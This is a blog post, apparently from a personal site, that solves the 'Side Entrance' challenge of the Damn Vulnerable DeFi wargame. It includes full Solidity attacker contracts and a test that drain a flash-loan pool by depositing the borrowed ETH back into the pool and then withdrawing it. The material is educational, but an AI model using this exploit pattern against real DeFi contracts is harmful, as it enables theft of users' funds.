 ```yaml
---
isDraft: false
title: 'Damn Vulnerable DeFi Challenge #4 Solution'
description: 'Explanation of solution to Damn Vulnerable Defi Challenge #4: Side Entrance'
tags: ['defi', 'solidity']
publishDate: 'Oct 10, 2023 06:45 PM'
---
```



# {frontmatter.title}

<Quote />

*Published <FormattedDate client:only="react" date={props.date} />*

> ## Challenge #4 - Side Entrance
>
> A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.
>
> It has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.
>
> Starting with 1 ETH in balance, pass the challenge by taking all ETH from the pool.

`SideEntranceLenderPool` keeps track of all accounts' balances inside of the `balances` mapping. We can increment our balance through the `deposit` function. The `flashLoan` function gives us access to the pool's whole balance as long as we repay by the end of its execution.

Notably, this contract does not employ any sort of reentrancy protection. We can create a contract that takes the pool's balance, deposits it back into the pool, and therefore assigns it to its own address in the `balances` mapping. This keeps the pool's balance the same, satisfying the condition that the pool cannot have less ETH than what it had before the flash loan.

```solidity
// contracts/side-entrance/FlashLoanEtherReceiver.sol

// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./SideEntranceLenderPool.sol";

contract FlashLoanEtherReceiver {
    function infiltrate(
        SideEntranceLenderPool pool,
        uint256 amount
    ) public {
        pool.flashLoan(amount);

        pool.withdraw();

        payable(msg.sender).transfer(amount);
    }

    function execute() external payable {
        SideEntranceLenderPool(msg.sender).deposit{
            value: msg.value
        }();
    }

    receive() external payable {}
}
```

This works, but it would be much more epic and cool if we could infiltrate the pool in a single transaction, rather than first deploying and then calling a function.

The body of the `infiltrate` function cannot simply be transferred to the `constructor` of a contract. The pool calls `execute` on `msg.sender` when we call `pool.flashLoan(amount)`. The contract would still be initializing, and its runtime code would not be available. `flashLoan` would revert because the contract's `execute` function would not exist yet.

We can deploy `FlashLoanEtherReceiver` from another contract and call `infiltrate` atomically.

```solidity
// contracts/side-entrance/FlashLoanEtherReceiverDeployer.sol

// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./FlashLoanEtherReceiver.sol";

contract FlashLoanEtherReceiverDeployer {
    constructor(SideEntranceLenderPool pool, uint256 amount) {
        new FlashLoanEtherReceiver().infiltrate(pool, amount);
    }
}
```

We just need to change where the ETH will be transferred. `msg.sender` is the deployer now, and it cannot accept transfers to it without a `receive` function. We could add it in and implement a `withdraw` function, but I opted to change the `infiltrate` function.

```solidity
function infiltrate(
    SideEntranceLenderPool pool,
    uint256 amount
) public {
    pool.flashLoan(amount);

    pool.withdraw();

    // `msg.sender` is the address that calls `infiltrate`.
    // `FlashLoanEtherReceiverDeployer` in this case.
    //
    // `tx.origin` is the externally owned account that starts the whole transaction.
    payable(tx.origin).transfer(amount);
}
```

Now all we have to do is deploy `FlashLoanEtherReceiverDeployer` and pass in the pool and the amount as arguments. This solution does not even use our own balance! (except for gas, of course)

```js
// test/side-entrance/side-entrance.challenge.js

it('Execution', async function () {
  await (
    await ethers.getContractFactory(
      'FlashLoanEtherReceiverDeployer',
      player
    )
  ).deploy(pool.address, ETHER_IN_POOL)
})
```
